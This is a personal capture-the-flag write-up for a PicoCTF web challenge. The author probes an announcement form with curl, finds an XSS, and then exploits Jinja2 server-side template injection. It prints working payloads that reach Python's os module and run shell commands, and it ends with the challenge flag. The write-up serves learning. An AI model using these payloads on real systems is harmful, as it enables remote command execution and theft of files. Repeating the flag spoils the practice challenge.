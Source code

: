 ```yaml
---
title: 'PicoCTF Writeup #492'
date: 2025-08-19T11:09:54+07:00
draft: false
description: ''
---
```



## PicoCTF Writeup – Server-Side Template Injection (SSTI)

Recently, I played around with a PicoCTF [challenge 492](https://play.picoctf.org/practice/challenge/492). The challenge looked like a simple web app that lets you "announce whatever you want." Naturally, I fired up my terminal and started poking at it with `curl`. By the way, we can also visit the website and experiment with the form instead.

```bash
curl -X GET http://rescued-float.picoctf.net:49878/announce -i
```

Response:

```
HTTP/1.1 405 METHOD NOT ALLOWED
Allow: POST, OPTIONS
```

Looks like only `POST` is allowed, so I retried with:

```bash
curl -X POST http://rescued-float.picoctf.net:49878/announce -i
```

This time, I got a `200 OK`. Sweet — we can actually interact with the app.


## First Thoughts

The description said:

> “I made a cool website where you can announce whatever you want!
> I heard templating is a cool and modular way to build web apps!”

That last line screamed *templating*. My first instinct was to try some basic XSS. Sure enough:

```html
<script>alert("HELO")</script>
```

triggered an alert box. Nice, but XSS wasn’t the way to the flag.


## Pivot to SSTI

The title of the challenge hinted at **Server-Side Template Injection (SSTI)**. From the headers I noticed the app was running **Werkzeug (Python/3.8)**. That strongly suggested **Jinja2** templating under the hood.

I tested with some Jinja syntax:

```
{{}}
```

and got an **Internal Server Error**. That confirmed I was on the right track — this was a template engine at work.


## Digging Deeper

Here’s where I hit a wall. I’d never really done an SSTI attack before. After some research, I learned about Python’s **MRO (Method Resolution Order)** and how it could be abused to reach Python internals, including modules like `os`.

Turns out you can chain through Jinja’s builtins and reach Python’s `os` library. Once you can execute system commands, it’s game over.

Payload to list files:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

That revealed a file named `flag`.

Payload to read it:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

And boom — got the flag.


## The Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
```


## Takeaways

* Don’t stop at XSS — sometimes it’s just a red herring.
* Jinja2 + careless input handling = a playground for SSTI.
* The Method Resolution Order (MRO) trick is incredibly powerful when exploring Python internals.

This was my first real SSTI exploit, and it was a fun rabbit hole to fall into. Definitely a good reminder of how dangerous improper template handling can be.
